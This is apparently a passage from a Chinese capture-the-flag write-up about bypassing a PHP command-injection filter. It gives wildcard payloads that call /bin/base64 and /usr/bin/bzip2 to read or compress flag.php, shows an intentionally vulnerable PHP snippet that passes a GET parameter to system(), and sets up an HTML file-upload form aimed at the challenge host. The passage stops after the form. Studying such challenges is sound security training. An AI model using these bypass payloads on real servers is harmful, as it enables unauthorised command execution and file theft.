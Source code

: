 > `\`是指换行
> `ls -t`将文件按时间排序输出
> `sh`命令可以从一个文件中读取命令来执行



# bin/

**bin目录:** 

bin为binary的简写主要放置一些 [系统](http://www.2cto.com/os/)的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等

这里我们可以利用 base64 中的64 进行通配符匹配  即 /bin/base64 flag.php

**/usr/bin目录:**

?c=/???/???/????2 ????.???      ---》 然后在url + /flag.php.bz2

主要放置一些应用软件工具的必备执行档例如c++、g++、gcc、chdrv、diff、dig、du、eject、elm、free、gnome*、 zip、htpasswd、kfm、ktop、last、less、locale、m4、make、man、mcopy、ncftp、 newaliases、nslookup passwd、quota、smb*、wget等。

我们可以利用/usr/bin下的**bzip2**

意思就是说我们先将flag.php文件进行压缩，然后再将其下载



# post上传文件进行命令执行

```php
<?php

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```



首先构造一个post上传文件的数据包

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST文件上传</title>
</head>
<body>
<form action="http://17d01aae-51d9-48fe-abfb-d9ba10037d72.chall.ctf.show/" method="post" enctype="multipart/form-data">
    <!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```
